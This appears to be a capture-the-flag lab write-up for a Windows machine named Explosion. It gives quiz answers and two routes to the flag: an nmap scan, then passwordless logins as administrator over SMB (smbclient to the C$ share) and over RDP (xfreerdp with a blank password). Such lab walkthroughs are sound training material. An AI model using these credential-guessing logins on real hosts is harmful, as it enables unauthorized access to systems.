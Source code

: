 ## 1. Questions
- Task 1
	- What does the 3-letter acronym RDP stand for?
		- `Remote Desktop Protocol`
- Task 2
	- What is a 3-letter acronym that refers to interaction with the host through a command line interface?
		- `CLI`
- Task 3
	- What about graphical user interface interactions?
		- `GUI`
- Task 4
	- What is the name of an old remote access tool that came without encryption by default and listens on TCP port 23?
		- `telnet`
- Task 5
	- What is the name of the service running on port 3389 TCP?
		- `ms-wbt-server`
- Task 6
	- What is the switch used to specify the target host's IP address when using xfreerdp?
		- `/v:`
- Task 7
	- What username successfully returns a desktop projection to us with a blank password?
		- `administrator`
- Submit Flag
	- Submit root flag
## 2. Tools Used
- Linux
- CLI
- nmap
- smbclient
- dir
- more
- xfreerdp
## 3. Approach
### nmap scan
 - Useful resource
	- https://www.stationx.net/nmap-cheat-sheet/
```bash
sudo nmap -sSVC -Pn -n --disable-arp-ping -T4 10.129.99.63
```
- Flags
	- `-sSVC` - SYN, service, and default sript scan.
	- `-Pn` - Exclude ICMP scanning.
	- `-n` - Exclude name resolution.
	- `--disable-arp-ping` - Exclude `arp` scanning.
	- `-T4` - Use speed template `aggressive`.
- Result
```bash
<snip>
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-09-13T08:20:06+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2025-09-12T08:16:28
|_Not valid after:  2026-03-14T08:16:28
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2025-09-13T08:19:58+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-09-13T08:20:02
|_  start_date: N/A
<snip>
```
### Research common SMB usernames
- Resources
	- https://medium.com/@taliyabilal765/smb-enumeration-guide-b2cb5cfb20e6#:~:text=2%2D-,Common%20credentials,-%3A%20Try%20common
	- https://hackviser.com/tactics/pentesting/services/smb
- Example usernames
	- anonymous
	- admin
	- administrator
	- root
### Test SMB connection (passwordless)
- Useful resource
	- https://github.com/irgoncalves/smbclient_cheatsheet
- Successfully connected using username `anonymous`
```bash
smbclient -L //10.129.99.63 -U anonymous
```
- Result
```bash
<snip>
Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
<snip>
```
### Test share connection (passwordless)
- Useful resource
	- https://github.com/irgoncalves/smbclient_cheatsheet
- Successfully connected using username `administrator`
```
smbclient //10.129.99.63/C$ -U administrator
```
### Explore files and directories
- Useful resource
	- https://github.com/security-cheatsheet/cmd-command-cheat-sheet
- Flag found in `\Users\Administrator\Desktop` directory
### Retrieve the flag
- Useful resource
	- https://github.com/security-cheatsheet/cmd-command-cheat-sheet
```cmd
more \Users\Administator\Desktop\flag.txt
```
## 4. Alternative Approach
### nmap scan
 - Useful resource
	- https://www.stationx.net/nmap-cheat-sheet/
```bash
sudo nmap -sSVC -Pn -n --disable-arp-ping -T4 10.129.99.63
```
- Flags
	- `-sSVC` - SYN, service, and default sript scan.
	- `-Pn` - Exclude ICMP scanning.
	- `-n` - Exclude name resolution.
	- `--disable-arp-ping` - Exclude `arp` scanning.
	- `-T4` - Use speed template `aggressive`.
- Result
```bash
<snip>
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-09-13T08:20:06+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2025-09-12T08:16:28
|_Not valid after:  2026-03-14T08:16:28
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2025-09-13T08:19:58+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-09-13T08:20:02
|_  start_date: N/A
<snip>
```
### Research common admin credentials
- Usernames
	- https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/04-Authentication_Testing/02-Testing_for_Default_Credentials#:~:text=Try%20the%20following%20usernames
- Password
	- https://outpost24.com/blog/it-admins-weak-password-use/#:~:text=password%2Dguessing%20attack.-,Top%2020%20administrator%20passwords,-%3A%20Default%2C%20static%2C%20and
### Test rdp connection (passwordless)
- Test usernames
	- administrator
	- user
	- admin
	- root
	- anonymous
- Successfully connected using username `administrator`
```bash
xfreerdp /v:10.129.99.63 /u:administrator /p: /dynamic-resolution
```
### Retrieve the flag
- Upon login, opened `flag.txt` on the Desktop.
![](Screenshot%202025-09-13%20at%2009.41.22.png)
